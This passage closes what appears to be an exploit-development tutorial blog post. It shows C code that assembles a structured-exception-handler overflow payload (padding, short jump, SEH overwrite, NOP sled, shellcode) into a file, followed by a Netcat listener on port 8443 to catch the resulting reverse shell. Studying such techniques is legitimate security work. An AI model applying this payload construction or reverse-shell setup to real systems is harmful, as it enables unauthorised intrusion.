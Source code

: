 ```c
    memset(buffer, 'A', 608);
    memcpy(buffer + 608, jump_short, 4);
    memcpy(buffer + 612, seh, 4);
    memcpy(buffer + 616, nops, sizeof(nops));
    memcpy(buffer + 616 + sizeof(nops), shellcode, sizeof(shellcode) - 1);

    arq = fopen(file, "wb");
    if (arq == NULL) {

        return 1;
    }

    fwrite(buffer, 1, 616 + sizeof(nops) + sizeof(shellcode) - 1, arq);
    fclose(arq);
    return 0;
}
```
To test our exploit, I'll leave Netcat listening on the port specified in our shellcode (8443):
```shell
nc -nlvp 8443
```
![alt text](assets/post_4/ok.png)

## Conclusion
In this post, I showed some of the techniques and challenges we face in exploit development, addressing a very interesting vulnerability. If you have any questions related to this post, feel free to contact me on my LinkedIn or X. Thank you for reading this far.